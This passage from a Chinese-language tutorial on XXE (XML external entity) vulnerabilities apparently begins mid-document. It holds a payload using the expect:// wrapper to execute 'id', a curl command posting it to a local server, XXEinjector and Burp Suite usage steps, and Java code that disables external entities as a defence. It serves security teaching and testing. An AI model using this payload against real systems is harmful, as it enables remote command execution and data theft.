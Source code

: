 ```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<foo>&xxe;</foo>
```

2. 发送请求：

```bash
curl -X POST http://localhost:8080 -d @payload.xml
```

## 4. 工具使用说明

### 4.1 XXEinjector

XXEinjector是一款自动化XXE漏洞检测工具，支持多种攻击场景。

#### 4.1.1 安装

```bash
git clone https://github.com/enjoiz/XXEinjector.git
cd XXEinjector
```

#### 4.1.2 使用

```bash
ruby XXEinjector.rb --host=http://localhost:8080 --file=payload.xml
```

### 4.2 Burp Suite

Burp Suite是一款常用的Web漏洞扫描工具，支持手动和自动化测试。

#### 4.2.1 配置

1. 打开Burp Suite，配置代理。
2. 发送请求到Repeater模块。

#### 4.2.2 测试

1. 构造恶意XML文档并发送请求。
2. 观察响应内容，检测是否存在XXE漏洞。

## 5. 防御措施

### 5.1 禁用外部实体

在解析XML时，禁用外部实体是最有效的防御措施。例如，在Java中可以使用以下代码：

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```
